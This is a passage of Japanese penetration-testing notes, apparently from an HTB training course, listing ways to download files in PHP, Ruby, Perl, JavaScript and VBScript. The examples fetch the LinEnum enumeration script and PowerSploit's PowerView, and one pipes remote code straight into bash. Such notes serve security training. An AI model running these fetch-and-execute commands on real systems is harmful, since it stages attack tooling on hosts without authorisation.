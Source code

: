 ```shell-session
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```
##### PHPでファイルをダウンロードし、それをBashにパイプする
```shell-session
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
##### Ruby
```shell-session
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```
##### Perl
```shell-session
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
#### Windows専用
##### JavaScript
- Windows コマンド プロンプトまたは PowerShell ターミナルから次のコマンドを使用して、JavaScript コードを実行し、ファイルをダウンロードできる
- 以下を`wget.js`で保存する
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
###### JavaScriptとcscript.exeを使用してファイルをダウンロードする
- 上の`wget.js`を保存する
```cmd-session
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```
##### VBスクリプト
- Windows コマンド プロンプトまたは PowerShell ターミナルから次のコマンドを使用して、VB Scriptを実行し、ファイルをダウンロードできる
- `wget.vbs`というファイルを作成し、次のコンテンツを保存する
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
###### VBScriptとcscript.exeを使用してファイルをダウンロードする
```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```
